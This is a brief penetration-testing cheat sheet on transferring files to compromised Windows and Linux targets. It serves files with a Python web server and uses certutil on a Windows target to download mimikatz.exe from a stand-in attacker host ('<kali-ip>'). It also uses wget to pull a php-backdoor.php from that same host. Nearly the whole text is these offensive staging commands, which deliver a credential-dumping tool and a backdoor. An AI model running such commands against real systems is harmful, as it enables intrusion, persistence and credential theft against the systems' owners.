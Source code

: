 # Transfering files to Windows & Linux targets

## Setting up a web server with python

```text
:~# python3 -m http.server 80
```

## Transferring files to Windows targets

```text
:~# python3 -m http.server 80
C:\Temp> certutil -urlcache -f http://<kali-ip>/mimikatz.exe mimikatz.exe
```

## Transferring files to Linux targets

```text
:~# python3 -m http.server 80
:~# wget http://<kali-ip>/php-backdoor.php
```
